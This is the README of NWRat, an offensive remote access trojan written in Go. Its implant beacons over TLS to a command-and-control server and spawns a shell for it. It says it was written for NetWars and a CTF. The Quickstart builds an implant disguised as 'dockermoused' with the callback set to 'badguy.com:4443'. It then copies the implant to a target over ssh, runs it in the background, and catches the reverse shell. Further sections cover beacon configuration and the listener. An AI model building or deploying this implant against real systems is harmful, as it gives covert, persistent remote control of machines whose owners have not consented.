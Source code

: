 NWRat
=====
Barebones RAT which provides a shell over TLS.  Originally written several
years ago for SANS' NetWars, the source was lost and re-written for quite a
long CTF which was part of a job interview.

As an implant it's a single binary which tries to make a TLS connection to the
C2 server at a set interval.  If a connection is established, a shell is
spawned and its stdio hooked up the TLS connection.  Further connection
attempts are still made when a shell is running to enable multiple shells on
target (or for if you forget `-c` when you ping something).

As a C2 server it listens for a connection from the implant, does a TLS
handshake and proxies stdio to the connection.  The listening socket is closed
when a connection is accepted to enable catching multiple callbacks.

Features:
- Single binary for both implant and server
- Shell over TLS
- Constant beacons
- No fussing about with someone else's post-exploitation code
- Compile-time implant configuration
- Cross-platform (though, only if `/bin/sh` exists on the platform)
- Encrypted on the wire
- Easy to set up and use
- Documentation which assumes some familiarity with [Go](https://golang.org)

For legal use only.

Quickstart
----------
```sh
# Get the source
go get github.com/magisterquis/nwrat
# Build the C2 server for the local platform
go build github.com/magisterquis/nwrat
# Build an implant for a different platform, setting the callback address
GOOS=linux go build -o dockermoused -ldflags="-X main.callbackAddr=badguy.com:4443" github.com/magisterquis/nwrat
# Put the implant on target it and run it
ssh target 'cat >/tmp/dockermoused && chmod 0700 /tmp/dockermoused && /tmp/dockermoused &' <./dockermoused
# Catch a callback
./nwrat -listen localhost:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

Implant
-------
The implant is configured using Go linker directives.  There are three options:

Option                | Default           | Description
----------------------|-------------------|------------
main.callbackInterval | `1m`              | Callback interval, in Go's parseable duration [syntax](https://golang.org/pkg/time/#ParseDuration)
main.callbackAddr     | `example.com:443` | Callback address and port
main.implantDebug     | _unset_           | Set to any string to have the implant print debugging messages

As an example, to have the implant call back to `kittens.com:4433` every three
seconds and print debugging output, it would be built something like

```sh
go build -ldflags="-X main.callbackInterval=3s -X main.callbackAddr=kittens.com:4433 -X main.implantDebug=sure" github.com/magisterquis/nwrat
```

Editing the `var` block at the top also works.

Running the binary with no arguments causes it to function as the implant (as
opposed to the C2 server).

C2 Server
---------
When used with `-listen` the binary catches a callback.  A listen address and TLS
certificate and key corresponding to the domain the implant expects need to be
supplied via command-line options, similar to

```sh
./nwrat -listen 0.0.0.0:4443 -cert ./badguy.com.crt -key ./badguy.com.key
```

It's not a bad idea to wrap `nwrat` in [rlwrap](https://github.com/hanslub42/rlwrap)
or something similar, as there'll be no TTY or readline library.

When one side or the other disconnects, a message similar to
```
2020/07/22 00:28:25 Sent 206 bytes to implant
```
will be logged.

Windows
-------
At the moment, the C2 side should work just fine, but the implant won't be able
to start `/bin/sh`.  Feel free to submit a pull request.
